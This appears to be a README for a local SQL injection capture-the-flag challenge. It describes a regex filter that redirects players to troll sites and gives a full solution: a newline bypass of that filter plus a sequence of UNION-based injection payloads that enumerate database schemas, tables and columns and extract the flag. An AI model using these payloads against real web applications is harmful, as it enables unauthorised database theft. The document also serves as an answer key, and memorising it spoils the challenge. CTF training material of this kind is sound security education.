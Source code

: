 ## run the containers

```docker-compose up```

## exploit sqli

visit http://127.0.0.1:8080 in your browser and try to exploit the sqli with the "search functionality". If you use a brower, check the sites source after the response is received.

to "troll" the CTF players, there is a detection of possible injection attempts with a regex, which e.g. detects a "\'" and redirects the players to a random choice of 10 "troll" sites (see the "static" folder).

one possibility to get the flag (as of now, you have to break the regex by using a "\n"):

possible injection to display all products:

 ```\n%' or 'a'='a'; #```

how to get database names:

```\n%' or 'a'='a' union select group_concat(schema_name) from information_schema.schemata; #```

how to get table names:

```\n%' or 'a'='a' union select group_concat(table_name) from information_schema.tables where table_schema='flask'; #```

get column names of table 'flag':

```\n%' or 'a'='a' union select group_concat(column_name) from information_schema.columns where table_name='flag'; #```

get flag itself:

```\n%' or 'a'='a' union select group_concat(flag) from flask.flag; #```